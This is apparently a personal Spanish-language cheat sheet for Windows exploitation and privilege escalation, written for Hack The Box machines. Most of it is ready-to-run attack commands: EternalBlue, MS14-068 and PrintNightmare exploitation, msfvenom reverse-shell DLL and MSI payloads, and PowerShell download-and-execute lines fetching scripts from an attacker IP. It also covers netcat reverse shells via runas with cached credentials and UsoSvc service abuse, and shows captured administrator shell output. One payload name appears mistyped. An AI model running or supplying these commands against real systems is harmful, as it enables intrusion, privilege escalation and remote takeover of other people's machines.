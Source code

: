 ## MS14-068

Aún siendo una vulnerabilidad antigua, hay empresas que siguen usando Windows Server 2008, el cuál es vulnerable a `MS14-068`. Usaremos `impacket` para explotarlo:

```shell
impacket-goldenPac <DOMINIO>/'<USUARIO>':'<CONTRASEÑA>'@<HOSTNAME>.<DOMINIO>
```

## MS17-010

Esta yo creo que es la más conocida; La podemos explotar de dos formas, con metasploit y con AutoBlue. Por mucho que digan algunos que autoblue es mejor por que no es metasploit, están equivocados. Si usan autoblue solamente por leer el código del exploit, pueden leer también el de metasploit y además es mucho más fácil de usar. Vale que metasploit lo da muy masticado todo pero no es necesario ese odio. Yo lo considero una gran herramienta de exploits centralizados que es muy útil si quieres velocidad y luego estudiar que pasa por detrás.
### Metasploit

Pasos sencillos:

```shell
msfconsole
search eternalblue
use 0
set LHOST <TU_IP>
set LPORT <TU_PUERTO>
set RHOSTS <IP_VÍCTIMA>
run
```

### AutoBlue

Usaremos [este](https://github.com/3ndG4me/AutoBlue-MS17-010) repo. Lo único que tienes que hacer es clonarlo y ejecutar el `zzz_exploit.py`:

```shell
python2 zzz_exploit.py <IP_VÍCTIMA>
```

Cabe destacar que necesitas editar la función `smb_pwn` para que ejecute el comando que tú quieras. 
## MS11-046

Esta se conoce algo menos pero se puede explotar de una forma muy fácil. Primero debemos mirar si la versión corresponde a `6.1.7600 N/A Build 7600`. En caso de que sí, nos descargamos [este](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe) exploit. Luego lo movemos a la máquina y lo ejecutamos. 

![[Pasted image 20230808114503.png]]

No puedo explicar todas estas vulnerabilidades, son infinitas. Solo he explicado tres, que son con las que me he topado en máquinas de HTB. Aquí os dejo un repo que es increíble: https://github.com/SecWiki/windows-kernel-exploits/tree/master. Muy recomendado <3

## PrintNightmare

Vale la pena comprobar si un equipo es vulnerable a CVE-2021-1675 con la herramienta [SpoolerScanner](https://github.com/vletoux/SpoolerScanner/blob/master/SpoolerScan.ps1) para luego explotarlo con [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py):

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.11/SpoolerScan.ps1')
```

Luego:

```shell
python3 -m venv PrintNightmare 
cd PrintNightmare 
source bin/activate
git clone https://github.com/cube0x0/impacket 
cd impacket 
pip3 install -r requirements.txt 
python3 setup.py install 
cd ..
```

Después:

```shell
impacket-smbserver smbFolder $(pwd) -smb2support
rlwrap nc -lvnp 4444
```

Luego creamos una shell DLL:

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.17.44 LPORT=4444 -f dll -o rev.dll
```

Ahora ejecutamos el CVE:

```shell
python3 CVE-2021-1675.py DRIVER/tony:liltony@10.10.11.106 '\\10.10.17.44\smbFolder\rev.dll'
```

Y tenemos shell :D
## AlwaysInstallElevated

Ejecutando winpeas si vemos esto seteado a `1` es crítico. Podemos escalar privilegios con [este](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated) recurso de HackTricks.

![[Pasted image 20230808125910.png]]

Generaremos un archivo malicioso `msi`:

```shell
msfvenom -p windows/.64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 -f msi -o shell.msi
```

Ahora lo metemos en la víctima y ejecutamos:

```powershell
msiexec /quiet /qn /i shell.msi
```

Esto nos dará una shell como system:

![[Pasted image 20230808130638.png]]

## Cached creds

Podemos ver si hay credenciales cacheadas en memoria con el comando `cmdkey /list`. Si esto devuelve algo así:

```powershell
Target: Domain:interactive=<DOMINIO>\Administrator
Type: Domain Password
User: ACCESS\Administrator
```

Podemos usar `runas` para ganar una shell como administrator:

- Creamos un server de python compartiendo el `PS.ps1`:

```shell
python3 -m http.server 80
```

- Creamos un `nc` en escucha:

```shell
rlwrap nc -lvnp 443
```

- Y en la máquina víctima que hayamos visto que hay credenciales cacheadas:

```powershell
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.11/PS.ps1')"
```

Esto nos dejará una bonita shell ;D

```shell
❯ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.98] 49161
Windows PowerShell running as user Administrator on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
access\administrator
PS C:\Windows\system32> 
```

Si hay credenciales en caché también se puede explotar como dice el punto de [DPAPI Secrets](/Mimikatz#DPAPI%20secrets). 

## UsoSvc

Podemos darnos cuenta de si podemos abusar o no de este servicio con el módulo `PowerUp` explicado en [aquí](/Enumeración#PowerUp):

```powershell
Invoke-ServiceAbuse -Name 'UsoSvc' -Command 'C:\ProgramData\nc.exe 10.10.14.11 443 -e powershell'
```

Esto nos dejará una shell en nuestro `nc`. 